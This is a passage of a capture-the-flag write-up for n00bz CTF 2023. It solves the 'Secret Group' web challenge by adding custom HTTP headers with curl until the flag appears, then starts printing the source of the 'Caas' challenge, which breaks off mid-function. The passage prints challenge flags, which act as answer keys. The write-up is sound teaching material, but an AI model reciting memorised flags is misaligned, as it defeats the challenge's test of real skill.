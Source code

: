 `n00bz{see_you_in_the_club_acting_real_nice}`

### Secret Group
>To get the flag, you must be a member of the secret group! Author: NoobMaster
>
>[http://challs.n00bzunit3d.xyz:31401/](http://challs.n00bzunit3d.xyz:31401/)
----------------
Visiting the url, we see the following in plain text:
```
Not an agent of the **n00bz-4dm1n** secure browser!
```
My first thought is that it is asking for a change to the http header User-Agent. Doing so using curl:
```sh
curl -H "User-Agent: n00bz-4dm1n" http://challs.n00bzunit3d.xyz:31401/                                                   
<p>Does not Accept <b>fl4g</b></p>
```
It looks to be another edit to http headers:
```sh
curl -H "User-Agent: n00bz-4dm1n" -H "Accept: fl4g" http://challs.n00bzunit3d.xyz:31401/
<p>Connection not <b>s3cur3</b></p>
```
Again keeping with the trend, I add another header line for connection:
```sh
curl -H "User-Agent: n00bz-4dm1n" -H "Accept: fl4g" -H "Connection: s3cur3" http://challs.n00bzunit3d.xyz:31401/
<p>Not refered by <b>s3cr3t.n00bz-4dm1n.xyz</b></p>
```
Time to add referer tag:
```sh
curl -H "User-Agent: n00bz-4dm1n" -H "Accept: fl4g" -H "Connection: s3cur3" -H "Referer: s3cr3t.n00bz-4dm1n.xyz" http://challs.n00bzunit3d.xyz:31401/ 
<b>Give-Flag</b> is not <b>7ru3</b>
```
Give-Flag is not really a common http header, but based on what has been going on, it's the first thing we should try.
```sh
$ curl -H "User-Agent: n00bz-4dm1n" -H "Accept: fl4g" -H "Connection: s3cur3" -H "Referer: s3cr3t.n00bz-4dm1n.xyz" -H "Give-Flag: 7ru3" http://challs.n00bzunit3d.xyz:31401/
n00bz{y0u_4r3_n0w_4_v4l1d_m3mb3r_0f_th3_s3cr3t_gr0up!}
```
Finally we get the flag.
`n00bz{y0u_4r3_n0w_4_v4l1d_m3mb3r_0f_th3_s3cr3t_gr0up!}`


### Caas
>Curl as a Service is old, welcome to Certificate as a Service! Note: flag is in `flag.txt` Author: NoobMaster

I was not able to solve this on my own, but thanks to [onsra03](https://github.com/onsra03/WU-n00bz-CTF-2023/blob/main/README.md#caas) for the fantastic writeup post-CTF.

-------------------------------------
#### Source code
```python
#!/usr/bin/env python3
from flask import Flask, request, render_template, render_template_string, redirect
import subprocess
import urllib

app = Flask(__name__)

def blacklist(inp):
```